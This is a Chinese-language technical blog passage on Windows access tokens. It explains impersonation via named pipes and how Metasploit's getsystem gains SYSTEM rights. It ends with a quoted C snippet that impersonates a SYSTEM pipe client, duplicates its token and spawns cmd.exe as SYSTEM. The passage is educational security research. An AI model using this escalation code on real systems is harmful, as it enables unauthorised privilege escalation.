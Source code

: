 
## 2. [模仿令牌](https://docs.microsoft.com/en-us/windows/win32/com/impersonation)

令牌有主令牌和模仿令牌两种：

1. 一个进程有一个LSASS赋予的主令牌来描述自己的安全上下文，通过[OpenProcessToken](https://msdn.microsoft.com/library/Aa379295(v=VS.85).aspx)可获取当前进程主令牌。

2. 此外，线程可以创建模仿令牌来临时模拟一个用户，一般是服务器来模拟客户端。例如，某用户想删除网络共享文件夹下的一个文件，负责网络共享的服务需要检查该用户是否有权限执行删除操作。如果由服务本身去实现用户及用户组权限检查会很复杂，这时由服务端临时创建一个客户端上下文，由它来代替客户端发出资源访问请求，访问验证过程仍然由网络共享文件夹所在机器上的SRM去做。这样，就简化了服务器的工作。通过 [OpenThreadToken](https://msdn.microsoft.com/library/Aa379296(v=VS.85).aspx)可获取当前线程的模拟令牌，[这里](https://docs.microsoft.com/en-us/windows/win32/secauthz/client-impersonation)简要列出了Windows提供的几种使用模仿令牌的机制。**一个低完整性级别的进程可能创建一个用户界面来捕获用户的登录凭证，然后调用LogonUser来获取该用户的令牌。为了避免这种假冒身份的情况出现，在模仿的情形下，一个特殊的完整性策略会起作用: 从LSALogonUser(LogonUser调用了LSALogonUser)返回的访问令牌，其完整性级别不得高于发出调用的进程的完整性级别。**

 

接下来，简单研究了下命名管道中，命名管道server端使用模仿令牌模拟客户端的方法，MSF中的getsystem命令就是基于此原理。

server端使用[CreateNamedPipe和ConnectNamedPipe](https://docs.microsoft.com/zh-cn/windows/win32/ipc/multithreaded-pipe-server)创建命名管道及等待client端连接，客户连接上命名管道，此时Server端可使用[ImpersonateNamedPipeClient](https://docs.microsoft.com/zh-cn/windows/win32/api/namedpipeapi/nf-namedpipeapi-impersonatenamedpipeclient)来模仿客户端。如果执行成功，调用进程的线程会变成客户端的安全上下文，那么就可以使用[OpenThreadToken](https://msdn.microsoft.com/library/Aa379296(v=VS.85).aspx)来获取客户端令牌。

MSF中的getsystem原理就是创建了一个命名管道和一个windows服务来连接此命名管道，windows服务启动时是system权限，当其连接上命名管道后，通过[ImpersonateNamedPipeClient](https://docs.microsoft.com/zh-cn/windows/win32/api/namedpipeapi/nf-namedpipeapi-impersonatenamedpipeclient)和[OpenThreadToken](https://msdn.microsoft.com/library/Aa379296(v=VS.85).aspx)获取其令牌，再通过[DuplicateTokenEx](https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-duplicatetokenex)和[CreateProcessWithTokenW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw)复制令牌并创建新进程，新的子进程是system权限。

以下代码摘自：https://www.anquanke.com/post/id/190207#h2-8

```
if (ImpersonateNamedPipeClient(hPipe) == 0) {
    printf("[!] Error impersonating client %d\n", GetLastError());
    return 0;
}
if (!OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &token)) {
    printf("[!] Error opening thread token %d\n", GetLastError());
    return 0;
}
if (!DuplicateTokenEx(token, TOKEN_ALL_ACCESS, NULL, SecurityDelegation, TokenPrimary, &newtoken)) {
    printf("[!] Error duplicating thread token %d\n", GetLastError());
    return 0;
}
printf("[*] Impersonated SYSTEM user successfully\n");
if (!CreateProcessWithTokenW(newtoken, LOGON_NETCREDENTIALS_ONLY, L"", L"C:\\windows\\system32\\cmd.exe", NULL, NULL, NULL, (LPSTARTUPINFOW)&si, &pi)) {
    printf("[!] CreateProcessWithToken failed (%d).\n", GetLastError());
    return 0;
}
```
